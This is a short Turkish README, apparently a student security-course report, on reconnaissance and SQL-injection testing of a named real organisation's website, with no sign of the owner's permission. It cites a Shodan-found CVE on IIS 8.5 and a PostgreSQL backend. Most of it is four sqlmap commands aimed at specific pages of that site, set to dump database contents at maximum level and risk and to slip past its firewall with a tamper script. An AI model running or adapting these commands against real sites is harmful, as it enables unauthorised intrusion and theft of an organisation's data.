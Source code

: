 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.
